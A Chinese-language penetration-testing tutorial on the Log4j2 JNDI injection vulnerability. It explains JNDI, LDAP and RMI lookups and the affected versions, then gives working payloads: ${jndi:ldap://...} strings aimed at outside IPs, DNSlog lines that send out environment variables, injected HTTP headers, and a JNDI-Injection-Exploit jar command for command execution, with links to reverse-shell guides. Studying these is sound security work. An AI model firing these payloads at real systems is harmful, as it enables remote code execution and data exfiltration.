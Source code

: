 Log4j2 是 Apache 软件基金会下的一个开源的基于 Java 的日志记录工具。Log4j2 是一个 Log4j 1.x 的重写。并且引入了大量丰富的特性。该日志框架被大量用于业务系统开发，用来记录日志信息。
由于其优异的性能而被广泛的应用于各种常见的 Web 服务中。

^
## **JNDI注入**
JNDI是对各种访问目录服务的逻辑进行了再封装。
JNDI提供了一个通用的接口，使得Java应用程序可以查找和访问各种不同类型的命名服务和目录服务，包括文件系统、配置文件、DNS、LDAP服务器、RMI服务器等。
^
JNDI注入主要是用过下载远程class，来运行恶意代码。JNDI注入攻击时常用的就是通过RMI和LDAP两种服务，验证时也可以使用dns协议。
>LDAP（轻型目录访问协议）：是一个开放的，中立的，工业标准的应用协议，通过IP协议提供访问控制和维护分布式信息的目录信息。目录是一个为查询、浏览和搜索而优化的专业分布式数据库，它呈树状结构组织数据，就好象Linux/Unix系统中的文件目录一样。
>RMI（Java远程方法调用）：它是一种机制，能够让在某个java虚拟机上的对象调用另一个Java虚拟机 的对象的方法。
^
## **Log4j2漏洞原理**
在java中最常用的日志框架是log4j2和logback，其中log4j2支持lookup功能（查找搜索），例如开发者想在日志中打印今天的日期，则只需要输出 ${data:MM-dd-yy}，此时log4j会将${}中包裹的内容单独处理，将它识别为日期查找，然后将该表达式替换为今天的日期内容输出为"08-22-2022”，这样做就不需要开发者自己去编写查找日期的代码。然而lookup功能也允许在日志配置中引用远程JNDI资源，用来动态获取配置信息，比如从远程服务器获取信息字节流。
Log4j2 漏洞利用：攻击者使用 ${} 关键标识符触发 JNDI 注入漏洞，当程序将用户输入的数据进行日志记录时，即可触发此漏洞。此时攻击者构造一个特殊的JNDI URL，该URL指向一个远程服务器上的恶意LDAP服务。这个LDAP服务会返回一个恶意的类路径（类加载器链），最终导致远程服务器上的恶意类被加载和执行。
支持版本：2.0<=Log4j2<=2.14.1
^
## **漏洞利用和验证**

![](.topwrite/assets/image_1727319060611.png)
漏洞验证：
将用户名记录了日志中，
将用户的发言消息记录了日志中等
```
如：文件上传的名字记录日志
java代码：logger.info("获取图片原始文件名：{}”，originalFileName);
抓包把文件名改为：filename="${jndi:dns://***.dnslog.cn}"
成功获取DNSlog
获取java环境变量的操作系统OS：filename="${jndi:dns://${env:OS}.vmfp3r.dnslog.cn}"
```

对应的请求包中对应内容改为：
```
${jndi:ldap://183.145.120.145/Click1/Exec}  
//去请求一个LDAP服务器，域名的话也会请求DNS

${jndi:dns://***.dnslog.cn/exp}  
 //如果tcp不出网ldap失效，直接用dns协议(jndi支持dns://)去实现dnslog。


案例场景：
Accept-Language: zh-cN,zh;q=0.9
X-Api-Version: ${jndi:ldap://test.x****r.ceye.io/exp}
Content-Type: application/x-www-form-urlencoded
Content-Length:64
w-------------------+
username=admin${jndi : dns: //test.x****r.ceye.io/exp}
```
命令执行漏洞利用：
JNDI利用工具：LDAP服务器
工具使用方法参考<https://www.freebuf.com/vuls/337333.html>
实现：${jndi:ldap://127.0.0.1:1389/Basic/Command/你要执行的命令}

^
JNDI利用工具：JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
jndi进行命令执行，反弹shell：<https://blog.csdn.net/m0_74294234/article/details/137188160>
支持同时启动ldap服务和rmi服务。
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A 47.109.58.205

${jndi:rmi://192.168.1.8:1099/yfwrr7}
${jndi:ldap://192.168.1.8:2113/akndj}
```

^
**log4j2不出网：**
rmi和ladp都是走的tcp协议，如果有网络防火墙tcp不出网，还想利用，将其转成icmp协议出网再转回来。
验证则直接用dns协议(jndi支持dns://)去实现dnslog：${jndi:dns://***.dnslog.cn/exp} 。
或不使用JNDI，使用其他利用链，原生反序列化链等。

^
复现：
<https://www.freebuf.com/articles/web/341857.html>
